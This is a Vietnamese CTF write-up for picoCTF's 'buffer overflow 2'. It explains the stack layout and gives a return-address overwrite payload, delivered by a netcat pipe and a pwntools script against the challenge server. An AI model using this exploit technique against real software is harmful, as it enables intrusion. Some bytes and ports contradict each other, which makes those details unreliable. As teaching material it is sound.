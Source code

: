 # buffer overflow 2

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

b) Nhận xét

- Trước hết ta phải ghi đè địa chỉ trả về vào hàm win, sau đó muốn hàm win in ra flag thì hai đối số arg1 và arg2 phải nhận các giá trị lần lượt là 0xcafef00d và 0xf00df00d

## 2. Ý tưởng khai thác

- Đầu tiên, ta phải hiểu được cấu trúc stack của một hàm hoàn chỉnh. Dưới đây là mô hình ngăn xếp khi ta gọi một hàm nào đó:

![image.png](image.png)

- Ở đây ta thấy arg1 và arg2 là đối số của hàm được gọi, và nó được truyền vào khi ta dùng hàm call để gọi một hàm. Tuy nhiên vì ta không dùng hàm call để gọi hàm mà ta dùng kỹ thuật ghi đè địa chỉ trở về nên việc truyền đối số không thể thực hiện bình thường được. Khi đó hàm win sẽ đọc các giá trị tại vị trí mà nó mong đợi tìm thấy tham số. Những giá trị này có thể là bất kỳ thứ gì đã có sẵn trên stack tại thời điểm đó (ví dụ: các biến cục bộ của hàm bị overflow, return address cũ, hoặc đơn giản là rác trên stack)
- Vì vậy ta phải sử dụng kỹ thuật buffer overflow để tiếp tục chèn các tham số mong muốn trực tiếp vào vùng nhớ stack mà hàm win sẽ đọc. Vấn đề ở đây là ta phải tìm được địa chỉ của ô nhớ mà win sẽ đọc.
- Khi ta ghi đè địa chỉ trở về của hàm win vào return address trên stack thì hàm win vẫn chưa được gọi. Tức là nó vẫn thực hiện tiếp các câu lệnh khác trong hàm chứ chưa nhảy đến hàm win luôn. Chỉ khi nào câu lệnh ret được gọi, giá trị ghi đè vào return address mới được sử dụng, và EIP được cập nhật. Ở đây câu lệnh ret chỉ được gọi khi hàm vuln kết thúc:

![image.png](image%201.png)

- Trước câu lệnh ret ta cũng phải quan tâm đến câu lệnh leave. Câu lệnh leave tương đương 2 câu lệnh con:

```cpp
mov esp, ebp
pop ebp
```

Giá trị hiện tại của EBP sẽ được gán vào cho con trỏ ngăn xếp, và sau đó EBP được phục hồi với
giá trị đã lưu trên ngăn xếp. Đây là minh họa ngăn xếp trước và sau khi thực hiện 2 câu lệnh trên:

![image.png](image%202.png)

- Sau đó câu lệnh ret được thực hiện, lệnh ret lấy giá trị return address tại nơi ESP trỏ đến để truyền vào EIP, đồng thời ESP cũng được tăng thêm 1 ô nhớ (4 byte):

![image.png](image%203.png)

- Sau đó hàm win được gọi, phần dẫn nhập (tức là những lệnh assembly đầu tiên của 1 hàm) của hàm win gồm hai câu lệnh:

```cpp
push ebp
mov ebp, esp
```

- Lưu ý rằng: PUSH là thao tác đưa một đối tượng vào ngăn xếp. Trong cấu trúc Intel x86 32 bit, khi ta đưa một giá trị vào ngăn xếp thì CPU sẽ tuần tự thực hiện hai thao thác nhỏ:
+ ESP được gán giá trị ESP - 4, tức giá trị của ESP sẽ bị giảm đi 4.
+ Đối số của lệnh PUSH được chuyển vào 4 byte trong bộ nhớ bắt đầu từ địa chỉ do ESP xác định.
(lệnh POP cũng tương tự)
- Hình vẽ sau (chỉ mang tính minh họa) miêu tả trạng thái của stack ban đầu và stack sau 2 câu lệnh đó:

![image.png](image%204.png)

- Vậy stack hoàn chỉnh của hàm win sẽ như sau, lưu ý rằng ô chứa địa chỉ return address và arg1, arg2 chỉ là hàm win nghĩ rằng ô đó chứa, và nó sẽ đọc giá trị tại các ô nhớ đó. Nhiệm vụ bây giờ của chúng ta là chèn vào các ô nhớ đó các giá trị mà chúng ta muốn: chèn giá trị 0xCAFEF00D vào ô nhớ chứa arg1 và giá trị 0xF00DF00D vào ô nhớ chứa giá trị arg2:

![image.png](image%205.png)

- Ta dễ dàng thấy payload sẽ là: padding + địa chỉ hàm win + 4 byte ghi đè ô nhớ chứa return address của hàm win + 0xCAFEF00D + 0xF00DF00D

## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Tương tự như bài buffer overflow 1 (xem write-up bài trước) ta tự tìm được padding là 112

b) Bước 2: Tìm địa chỉ của hàm win

- Dùng câu lệnh “info functions” để xem địa chỉ các hàm, ở đây ta tìm được địa chỉ của hàm win là 0x08049296. Theo kiến trúc little-edian thì địa chỉ đó sẽ được ghi trong stack là \x96\x92\x04\x08
- Vậy payload cần dùng là: 112 ký tự padding +  “\xf6\x91\x04\x08” + 4 ký tự padding + \x0d\xf0\xfe\xca + \x0d\xf0\x0d\xf0

c) Bước 3: Viết payload

- Cách 1: truyền bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A3Abb4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2AcA3c4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6AAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A\x96\x92\x04\x08AAAA\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0"; cat) | nc saturn.picoctf.net 51471
```

- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 51472)

payload=b'a'*112 + p32(0x08049296) + b'a'*4 +  p32(0xcafef00d) + p32(0xf00df00d)

p.sendline(payload)
p.interactive()
```

![image.png](image%206.png)

## 4. Kết luận

- Địa chỉ return address trong stack bị ghi đè bởi buffer overflow, nhưng nó chỉ được thực thi khi hàm ret được gọi
- Hiểu được cấu trúc hoàn chỉnh của một stack và cấu trúc stack khi gọi hàm
